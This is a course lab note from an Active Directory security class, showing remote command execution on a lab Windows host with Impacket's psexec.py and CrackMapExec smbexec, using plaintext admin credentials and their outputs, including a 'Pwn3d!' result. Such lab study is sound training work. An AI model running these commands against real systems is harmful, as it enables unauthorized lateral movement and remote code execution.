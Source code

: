 ```yaml
---
title: NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
tags: [NTUSTISC, AD, information security]

---
```


# NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Background
[NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n)
[滲透測試的利器 - Impacket](https://sectools.tw/impacket/): 
> python撰寫的內網滲透工具
## Lab
### ==遠端執行(RDP)2==
* Kali-Linux Tools
    * Impacket(Kali-Linux愛好者可使用的PsExec)
        ```bash
        # Set up & Install
        $ git clone https://github.com/fortra/impacket.git
        $ cd impacket
        $ conda activate py3.7 # Recommended to install it in conda
        $ pip3 install -r requirements.txt
        $ python3 setup.py install
        
        # Cheat-Sheet
        $ conda activate py3.7
        $ proxychains psexec.py <username>:<password>@<ip> whoami
        ```
    * CrackMapExec
        ```bash
        $ crackmapexec smb [IP] -u <username> -p <password --exec-method smbexec -x '<command>'
        ```
        exec-method支援以下方法:
            * mmcexec
            * smbexec
            * wmiexec
            * atexec
#### ==How to use Impacket==
感覺應該是proxychains壞掉了，或是有一些其他問題，導致Connection Refused，總而言之，這套工具就是讓kali-linux也可以使用psexec這個工具
```bash
$ proxychains psexec.py kuma\administrators:1qaz@WSX3edc@192.168.222.129 dir
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  timeout
[-] [Errno Connection error (192.168.222.129:445)] [Errno 111] Connection refused
```
#### ==How to use CrackMapExec==
還記的之前的Lab([NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n))，有使用過這套工具，當時是為了做密碼揮灑的目的，不過考慮到psexec這個工具本質上就是爬到遠端的主機，然後開execve的process，並且跟他溝通，所以在這樣的前提下，就可以直接用CrackMapExec達到和psexec一樣的效果，畢竟兩者本質是做的事情差不多
:::spoiler Execution Result
```bash
$  crackmapexec smb 192.168.222.129 -u administrator -p 1qaz@WSX3edc --exec-method smbexec -x 'dir C:\tools'
SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] Executed command via smbexec
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧ C ññ¬║║╧║╨¿Sª│╝╨┼╥íC
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧º╟╕╣:  C230-62CE
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  C:\tools ¬║Ñ╪┐²
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          .
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          ..
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 12:57    <DIR>          AccessChk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/06/22  ñUñ╚ 02:58         1,379,216 accesschk.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/28  ñUñ╚ 11:41    <DIR>          BloodHound-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:32    <DIR>          BloodHound-win32-x64
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/29  ñWñ╚ 01:24    <DIR>          BloodHound-win32-x64-4.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 01:19           373,760 Certify.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 02:39         1,137,664 DNSAdmin-DLL.dll
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 10:02           443,650 Invoke-NinjaCopy.ps1
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          KDU-1.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 12:08             1,590 Kerberos-AS-REP.txt
SMB         192.168.222.129 445    DESKTOP-G95U93T  2005/01/17  ñUñ╚ 05:23            22,528 KmdManager.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          mimikatz_trunk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:31    <DIR>          neo4j-community-4.3.4
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:51    <DIR>          nopad
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/28  ñUñ╚ 11:09            27,136 PrintSpoofer64.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/05  ñWñ╚ 11:51    <DIR>          Procdump
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          ProcessExplorer
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          PSTools
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 12:27           301,056 Rubeus.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñUñ╚ 11:33    <DIR>          Sysmon
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          Windows-Kernel-Explorer-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/06  ñWñ╚ 11:12    <DIR>          Zip Folders
SMB         192.168.222.129 445    DESKTOP-G95U93T  8 ¡╙└╔«╫       3,686,600 ª∞ñ╕▓╒
SMB         192.168.222.129 445    DESKTOP-G95U93T  16 ¡╙Ñ╪┐²  16,192,659,456 ª∞ñ╕▓╒ÑiÑ╬
```
:::
## Reference

